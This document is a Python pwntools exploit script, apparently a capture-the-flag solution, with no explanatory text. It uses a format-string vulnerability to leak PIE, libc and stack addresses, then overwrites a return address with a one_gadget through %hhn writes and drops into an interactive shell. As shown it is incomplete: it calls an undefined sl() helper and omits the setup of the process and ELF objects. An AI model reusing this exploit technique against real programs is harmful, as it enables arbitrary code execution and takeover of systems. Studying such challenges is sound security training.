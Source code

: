 ```bash
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()



payload='%19$p,%9$p,%14$p'

#dbg()

sl(payload)
ru(b'0x')
pie=int(p.recv(12),16)-elf.sym['main']-28
ru(b'0x')
libcbase=int(p.recv(12),16)-libc.sym['_IO_file_setbuf']-13
ru(b'0x')
rbp=int(p.recv(12),16)
ret=rbp+8
__libc_start=ret+0x10
print('libc :'+hex(libcbase))
print('pie :'+hex(pie))
print('stack :'+hex(ret))
print('__libc_start :'+hex(__libc_start))
# _IO_file_setbuf+13

ogg=[0xe3afe,0xe3b01,0xe3b04]
o=libcbase+ogg[1]
leave=(0x01301+pie)&0xff
print('leave :'+hex(leave))

ogg1=o&0xff
ogg2=(o>>8)&0xff
ogg3=(o>>16)&0xff
print('o ogg1 ogg2 ogg3',hex(o),hex(ogg1),hex(ogg2),hex(ogg3))
payload=b'%'+str(ogg1).encode()+b'c%11$hhn'
payload+=b'%'+str(ogg2-ogg1).encode()+b'c%12$hhn'
payload+=b'%'+str(ogg3-ogg2).encode()+b'c%13$hhnaaaaaaa'
payload+=p64(__libc_start)
payload+=p64(__libc_start+1)
payload+=p64(__libc_start+2)
#dbg()
sl(payload)

p.interactive()
```
